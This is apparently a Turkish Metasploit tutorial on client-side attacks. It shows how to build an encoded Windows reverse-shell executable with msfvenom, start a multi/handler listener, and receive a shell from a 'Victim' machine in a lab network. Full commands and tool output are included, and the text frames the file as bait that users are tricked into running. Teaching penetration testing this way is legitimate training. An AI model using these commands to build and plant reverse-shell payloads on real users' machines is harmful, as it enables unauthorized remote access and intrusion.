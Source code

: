 ```yaml
---
draft: false

title:  'MSF Binary Payloads'
date: '2017-05-20T13:10:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'İstemci tarafı saldırılar, tüm ağ yöneticilerinin dikkat etmesi gerekli türden saldırılardır. Sisteminizin güvenliğini ne kadar sağlasanız da istemci tarafı saldırılar, kullanıcılarınızın zafiyetlerini kullanırlar.' 
 
url:  /tr/msf-binary-payloads/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## İstemci Taraflı Saldırılar



İstemci tarafı saldırılar, tüm ağ yöneticilerinin dikkat etmesi gerekli türden saldırılardır. Sisteminizin güvenliğini ne kadar sağlasanız da istemci tarafı saldırılar, kullanıcılarınızın zafiyetlerini kullanırlar.



Pentest işlemi gerçekleştirenler, sistemde bulunan kullanıcının, bir şekilde linke tıklamasını veya zararlı yazılım çalıştırmasını sağladığında kendilerine hedef sistemde kapı açmış olurlar. Bu sebeple, istemci taraflı saldırılar, kullanıcıyla etkileşim gerektirmektedir. Bu tür saldırılar, sosyal mühendislik çalışmalarını da gerektirir.



Metasploit Framework, bu tür zararlı kodların oluşturması için bir çok modül sağlamaktadır.



## binary payloads



binary payloads olarak adlandırılan çalıştırılabilir dosyalar, zararsız .exe dosyaları gibi görünse de aslında içinde tehlikeli kodlar bulunduran dosyalardır. Dosyayı alacak kullanıcıya, önemli bir dosya hissi uyandırarak tıklaması sağlanır ve zararlı kod çalışır.



Bu yazıda, Metasploit Framework tarafından sağlanan `msfvenom` komut satırı aracı kullanılacaktır. `msfvenom` kullanarak `.exe`, `perl` veya `c` program çıktıları elde edebilirsiniz. Burada `.exe` formatı kullanılacaktır.



## Windows Reverse Shell Açan Payload Oluşturma



Hedef kullanıcının zararlı programı çalıştırdığında dinleyen IP adresine bağlanması için bir payload oluşturmak için `windows/shell/reverse_tcp` modülünü kullanacağız. Öncelikle bu modülün çalışmak için hangi değişkenlere ihtiyaç duyduğuna bakalım.


```bash
root@kali:~# msfvenom --payload-options -p windows/shell/reverse_tcp
Options **for **payload/windows/shell/reverse_tcp:


       Name: Windows Command Shell, Reverse TCP Stager
     Module: payload/windows/shell/reverse_tcp
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 281
       Rank: Normal

Provided by:
    spoonm 
    sf 
    hdm 
    skape 

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique **(**Accepted: '', seh, thread, process, none**)**
LHOST                      yes       The listen address
LPORT     4444             yes       The listen port

Description:
  Spawn a piped command shell **(**staged**)**. Connect back to the attacker
```



Bu modül, çıktıda görüldüğü gibi `LHOST` ve `LPORT` değişkenlerinin ayarlanmasına ihtiyaç duymaktadır. Hedef platform olarak x86 mimari ve Windows işletim sistemi seçilmiştir. Oluşturacağımız payload için bir encoder kullanmamız gerekiyor. Bunun için de `x86/shikata_ga_nai` encoder modülünü kullanacağız. Bu şartlar altında aşağıdaki komut, encoder kullanarak `/tmp` klasörünün içinde `1.exe` isimli bir dosya oluşturacaktır.


```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST**=**172.16.104.130 LPORT**=**31337 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 **(**iteration**=**0**)**
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: /tmp/1.exe
```



`1.exe` dosyamızın türünü kontrol edelim. `file` komutuyla yaptığımız kontrolde `1.exe` doyasının MS Windows dosyası olduğu aşağıda görülmektedir.


```bash
root@kali:~# file /tmp/1.exe
/tmp/1.exe: PE32 executable **(**GUI**)** Intel 80386, **for **MS Windows
```



## Dinleme Ayarları



Elimizde istemcinin tıklayıp çalıştıracağı `1.exe` dosyası artık hazır durumda. Şimdi, tıklama işlemi gerçekleştiğinde dinleyecek bir modülü çalıştırmamız gerekiyor. Bunun için `exploit/multi/handler` modülünü ve içinde `payload windows/shell/reverse_tcp` dinleyici payload u kullanacağız.



Öncelikle `exploit/multi/handler` modülünü yükleyip seçeneklere bakalım.


```bash
msf **>** use exploit/multi/handler
msf exploit**(**handler**)** **>** show options

Module options:

   Name  Current Setting  Required  Description 
   ----  ---------------  --------  ----------- 


Exploit target:

   Id  Name            
   --  ----            
   0   Wildcard Target
```



Gördüğünüz gibi exploit modülünde herhangi bir zorunlu değişken bulunmuyor. Şimdi payload ayarlaması yapalım.


```bash
msf exploit**(**handler**)** **>** set payload windows/shell/reverse_tcp
payload **=>** windows/shell/reverse_tcp
msf exploit**(**handler**)** **>** show options

Module options:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options **(**windows/shell/reverse_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST                      yes       The local address
   LPORT     4444             yes       The local port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target 
```



Bu çıktıda görülmektedir ki Payload için `LHOST` ve `LPORT` değerlerinin girilmesi gerekmekte.



`LHOST`: Local Host yani yerelde dinleyecek IP adresini,



`LPORT`: Local Port, yani dinleyecek Port numarasını ifade eder.



Bu değerlerin, `msfvenom` komutuyla oluşturduğumuz `1.exe` dosyası için girdiğimiz değerler ile aynı olmasına dikkat edin. `1.exe` dosyası içinde hangi değerler gömülü ise zararlı yazılım bu bilgilere göre haberleşme sağlamak isteyecektir.


```bash
msf exploit**(**handler**)** **>** set LHOST 172.16.104.130
LHOST **=>** 172.16.104.130
msf exploit**(**handler**)** **>** set LPORT 31337
LPORT **=>** 31337
msf exploit**(**handler**)** **>**
```



Tüm ayarlamaları yaptıktan sonra `exploit` komutuyla modül çalıştırılır ve dinlemeye başlanır. Aşağıda, dinleme sonucunda gerçekleşen bir istemci tıklaması sonucu açılan komut satırı görülmektedir.


```bash
msf exploit**(**handler**)** **>** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Starting the payload handler...
**[*********]** Sending stage **(**474 bytes**)**
**[*********]** Command shell session 2 opened **(**172.16.104.130:31337 -> 172.16.104.128:1150**)**

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Victim\My Documents>
```

